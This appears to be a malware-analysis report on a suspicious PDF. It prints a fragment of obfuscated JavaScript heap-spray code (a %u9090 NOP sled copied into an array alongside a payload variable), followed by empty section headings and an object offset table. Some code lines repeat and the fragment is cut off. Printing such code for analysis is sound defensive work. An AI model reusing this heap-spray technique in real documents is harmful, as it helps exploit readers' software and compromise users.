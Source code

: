 	E79yB = lRUWC(E79yB, NPvAvQ);
	var fwdFfLgn = (NTLv7BP - 0x400000) / i388Ag8;
	for (var HEUAQgED = 0; HEUAQgED < fwdFfLgn; HEUAQgED ++ ){
	tX1PnUHy[HEUAQgED] = E79yB + rpifVgf;
  	var i388Ag8 = 0x400000;
	var JKn0PaC = rpifVgf.length * 2;
	var NPvAvQ = i388Ag8 - (JKn0PaC + 0x38);
	var E79yB = unescape("%u9090%u9090");
	E79yB = lRUWC(E79yB, NPvAvQ);
	var fwdFfLgn = (NTLv7BP - 0x400000) / i388Ag8;
	for (var HEUAQgED = 0; HEUAQgED < fwdFfLgn; HEUAQgED ++ ){
	tX1PnUHy[HEUAQgED] = E79yB + rpifVgf;
  <br />
### js\_join ###
[Index](#showing-information)
<br />
### malformed\_output ###
[Index](#showing-information)
<br />
### metadata ###
[Index](#showing-information)
<br />
### metadata ###
[Index](#showing-information)
<br />
### object ###
   0 Header
  17
    Object  1 (260)
 276
 279
    Object  2 (19)
 297
 300
    Object  3 (48)
 347
 350
    Object  4 (77)
 426
 430
    Object  5 (33)
 462
 465
    Object  6 (21)
 485
 488
    Object  7 (41)
 528
 531
    Object  8 (68)
 598
 601
    Object  9 (187)
 787
 790
    Object  10 (52)
 841
 844
    Object  11 (85)
 928
